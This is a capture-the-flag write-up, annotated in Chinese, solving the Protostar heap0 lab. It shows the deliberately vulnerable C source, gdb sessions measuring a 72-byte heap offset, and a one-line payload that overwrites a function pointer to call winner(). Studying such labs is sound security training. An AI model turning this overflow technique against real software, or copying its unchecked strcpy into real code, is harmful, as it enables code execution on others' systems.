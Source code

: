 # Heap

## Protostar Heap0

### About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();
}
```

就像栈一样，堆内存是连续分配的。这意味着如果我们越过缓冲区写入数据，将覆盖另一个数据结构。定义了两个结构，其中`f->fp`是一个**函数指针**，指向`nowinner`函数，在程序的最下面进行了一次调用。有个`strcpy`函数将传入的字符串写入`d->name`中。

我们在函数返回前下个断点，查看一下`d`和`f`的地址。

```javascript
(gdb) b *0x08048500
Breakpoint 1 at 0x8048500: file heap0/heap0.c, line 40.

(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed

Breakpoint 1, 0x08048500 in main (argc=134513804, argv=0x2) at heap0/heap0.c:40
40	in heap0/heap0.c


```

可以看到`d`和`f`的地址属于堆，然后分别查看内容，**d的内容**就是我们传入的**AAAA**，**f**的内容是**nowinner函数的地址**。

```javascript
(gdb) info proc map
process 1605
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0

(gdb) x/30x 0x804a008
0x804a008:	0x41414141	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000011	0x08048478	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000

(gdb) x/10x 0x804a050
0x804a050:	0x08048478	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000

Dump of assembler code for function nowinner:
0x08048478 <nowinner+0>:	push   ebp
0x08048479 <nowinner+1>:	mov    ebp,esp
0x0804847b <nowinner+3>:	sub    esp,0x18
0x0804847e <nowinner+6>:	mov    DWORD PTR [esp],0x80485dd
0x08048485 <nowinner+13>:	call   0x8048398 <puts@plt>
0x0804848a <nowinner+18>:	leave
0x0804848b <nowinner+19>:	ret
End of assembler dump.

(gdb) p 0x804a050 - 0x804a008
$1 = 72
```

二者地址**相差72个字节**，所以我们通过填充72个字符，后面跟上**winner()的地址**（通过`objdump -t heap0` 查看），就可以将`f->fp`改成指向winner函数，然后进行调用。

```shell
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
data is at 0x804a008, fp is at 0x804a050
level passed
```

